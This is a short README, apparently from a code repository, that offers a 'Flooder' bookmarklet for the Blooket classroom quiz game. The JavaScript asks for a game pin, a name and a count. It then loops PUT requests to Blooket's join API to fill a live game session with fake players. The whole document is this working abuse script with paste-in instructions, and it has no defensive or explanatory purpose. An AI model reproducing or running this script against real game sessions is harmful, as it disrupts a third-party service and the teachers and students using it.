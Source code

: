 # Flooder
Press crtl + d and then click More... and paste this 
```js
javascript:alert("made by Glizzy Flizzy Dlizzy Blizzy✔#0777");var pin = prompt("Pin"), name = prompt("Name"), amount = prompt("Amount");for (var i = 0; i < amount; i++) {fetch("https://api.blooket.com/api/firebase/join", {method: "PUT",headers: {"Content-Type": "application/json;charset=UTF-8"},body: JSON.stringify({id: pin,name: `${name}-${i}`})});}
```
